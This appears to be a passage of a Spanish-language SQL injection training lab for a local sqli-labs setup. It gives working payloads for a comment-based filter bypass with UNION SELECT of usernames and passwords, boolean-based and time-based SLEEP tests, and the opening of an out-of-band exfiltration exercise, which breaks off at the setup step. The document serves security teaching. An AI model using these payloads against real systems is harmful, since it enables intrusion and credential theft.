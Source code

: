 ## **🔹 Práctica 7: Bypass de Filtros con Comentarios**

📌 **Objetivo:** Evadir filtros de `--` usando `/*! */`.

**Pasos:**

1. Prueba esta variante en la URL vulnerable:

   ```sql
   http://localhost/sqli-labs/Less-1/?id=-1 /*! UNION */ SELECT 1,username,password FROM users --+
   ```

## **🔹 Práctica 8: Inyección SQL Basada en Booleanos**

📌 **Objetivo:** Extraer información sin mostrar errores.

**Pasos:**

1. Verifica si el sitio es vulnerable con:

   ```sql
   http://localhost/sqli-labs/Less-1/?id=1 AND 1=1 --+
   ```
   
2. Prueba la condición falsa:

   ```sql
   http://localhost/sqli-labs/Less-1/?id=1 AND 1=0 --+
   ```
   
3. Si la respuesta cambia, la inyección basada en booleanos funciona.

------

## **🔹 Práctica 9: Explotación de SQLi Basada en Tiempo**

📌 **Objetivo:** Identificar inyección SQL cuando la aplicación no muestra errores.

**Pasos:**

1. Usa la función `SLEEP()`:

   ```sql
   http://localhost/sqli-labs/Less-1/?id=1' AND SLEEP(5) --+
   ```

2. Si la página tarda 5 segundos en cargar, la vulnerabilidad existe.

## **🔹 Práctica 10: SQLi Out-of-Band (OOB)**

📌 **Objetivo:** Extraer información a un servidor externo.

**Pasos:**

1. Configura un servidor web en Kali:

   ```sql
   python3 -m http.server 8080
   ```
   